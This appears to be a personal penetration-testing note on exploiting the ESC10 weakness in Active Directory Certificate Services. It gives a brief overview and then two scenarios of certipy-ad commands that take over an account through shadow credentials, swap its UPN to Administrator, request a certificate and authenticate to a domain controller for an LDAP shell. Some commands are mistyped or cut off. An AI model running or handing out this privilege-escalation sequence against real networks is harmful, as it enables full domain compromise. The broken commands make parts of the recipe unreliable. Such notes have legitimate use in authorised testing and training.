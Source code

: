 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

Exploiting ESC10 in AD CS involves taking advantage of weak certificate mapping configurations that allow low-privileged users to obtain certificates capable of high-privilege impersonation. In environments where ESC10 is present, attackers can request certificates that lack proper security extensions, such as the `szOID_NTDS_CA_SECURITY_EXT`. 

These certificates can then be used to authenticate as privileged accounts, like domain controllers, enabling the attacker to escalate privileges and potentially compromise the entire domain. 

This attack is particularly effective when the `StrongCertificateBindingEnforcement` setting is not strictly enforced, allowing certificates with weak or absent security extensions to be accepted by Kerberos or Schannel.

## Requirements: 

- StrongCertificateBindingEnforcement set to 0
- GenericWrite over any account A to compromise any account B
 

# Abusing ESC10  Certificate Templates

## Scenario 1: 

## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad rec -CA 'corp-DC-CA' -username xadmin@megacorpone.com -hashes "NT HASH"
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user 

## Scenario 2:

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username xadmin@megacorpone.com -hash "NT-HASH" -CA 'corp-DC-CA' -template 'Vuln Template'
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn xadmin@megacorpone.com
- certipy-ad auth -pfx dc.pfx -dc-ip 172.21.1.5 -ldap-shell


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
